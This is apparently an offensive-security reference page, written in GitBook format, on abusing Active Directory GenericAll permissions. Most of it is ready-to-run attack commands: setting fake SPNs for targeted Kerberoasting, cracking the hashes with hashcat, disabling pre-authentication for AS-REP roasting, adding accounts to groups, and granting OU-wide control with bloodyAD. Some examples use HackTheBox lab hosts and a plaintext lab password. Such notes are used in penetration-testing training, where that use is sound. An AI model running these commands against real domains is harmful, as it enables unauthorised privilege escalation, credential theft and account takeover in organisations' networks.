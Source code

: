 # GenericAll

## Over a User

### Targeted Kerberoasting

{% tabs %}
{% tab title="targetedKerberoast" %}
[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) extracts Kerberoast hashes by abusing `write` access to set temporary SPNs on users without one, then removes them. It works on all users, a list, or a single user:

{% code overflow="wrap" %}
```bash
targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<pass>' --request-user '<target-account>'
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account:

{% code overflow="wrap" %}
```powershell
# Credentialed object for the currently owned user
> $SecPass = ConvertTo-SecureString "<password>" -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential ("<domain>\<username>", $SecPass)

# Create a fake SPN for the target user
> Set-ADUser -Identity "<target-user>" -Credential $Cred -Add @{ServicePrincipalName='fake/http'}
```
{% endcode %}

Once the SPN is assigned to the target account, we can [Kerberoast](../attacks/kerberoasting.md) it and crack its hash:

{% code overflow="wrap" %}
```bash
# Kerberoast the target account
impacket-GetUserSPNs <domain>\<username>:<password> -request-user <target-user> -dc-ip <dc-ip>

# Crack the hash
hashcat -m13100 fake_spn_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/as-reproasting.md) it:

{% tabs %}
{% tab title="PS" %}
```powershell
# Set the preauth option to true
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# Set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# Confirm that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

> _An example of the above method can be found_ [_here_](../../../boxes/insane/multimaster.md#genericwrite-rights)_._

### Change user's password

See [here](forcechangepassword.md).

## Over a Group

### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Adding user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# Adding user to the group (using another user's creds)
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endcode %}
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group <GROUP> <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
# Clean up by removing the account from the group
net group <GROUP> <USER> /del /domain
```
{% endtab %}
{% endtabs %}

## Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}
